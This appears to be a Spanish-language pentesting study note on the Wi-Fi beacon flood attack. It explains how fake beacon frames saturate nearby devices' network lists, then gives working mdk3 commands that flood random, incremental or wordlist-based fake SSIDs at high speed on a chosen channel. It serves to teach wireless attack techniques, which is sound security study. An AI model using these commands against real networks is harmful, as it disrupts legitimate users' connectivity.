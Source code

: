 # Beacon Flood Attack

El ataque Beacon Flood consiste en enviar una *gran cantidad de tramas Beacon falsas* a una red inalámbrica. Estas tramas anuncian puntos de acceso inexistente, *saturando la tabla de redes* de los dispositivos cercanos y causando congestión. Este ataque puede relentizar la detección de redes y dificultar las conexiones legítimas

---
# Exploit

Como vimos en la fase de [[0. Hacking WiFi#Pre-Explotación]], es necesario llevar a cabo ciertas configuraciones previas para poner nuestra interfaz en modo monitor, matar ciertos procesos, etc. Una vez realizado esto podríamos hacer uso de la herramienta `mdk3`, junto a `aireplay-ng` para la creación de APs falsos y el envío de las tramas.

```shell
# -a Randoms SSIDs
# -g Incremental SSIDs
sudo mdk3 {interface} b -n {fake_network_ssid} -a -g
# Create Fakes AP based on a wordlist
# -s Speed per second
# -c Specify channel
# -f Use filename
for n in $(seq 1 10); do echo "Network$n" >> {file_name}; done
sudo mdk3 {interface} b -f {file_name} -a -s 2000 -c {channel}
```

De esta manera tras la ejecución de estos comandos podríamos visualizar la creación de múltiples puntos de accesos con nombres aleatorios o especificos según lo que busquemos, pero con el finde de intentar saturar la tabla de  redes de los dispostivios cercanos, causando así una congestión en el mismo.
